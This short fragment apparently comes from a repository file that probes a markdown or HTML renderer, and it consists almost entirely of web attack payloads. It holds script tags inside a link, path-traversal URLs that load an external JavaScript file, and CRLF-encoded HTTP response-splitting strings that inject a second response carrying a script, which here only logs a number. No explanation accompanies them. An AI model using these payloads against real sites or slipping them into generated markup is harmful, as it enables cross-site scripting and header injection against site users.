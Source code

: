 [<script>Google</script>](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)

<img src="../../../../\%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E">XXX</a>

<img id="meu" src="" tabindex=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Econsole.log(122232523452345)%3C/script%3E></div>

<input type="text">
<button>asdf</button>
<script src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js"><script>
<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">
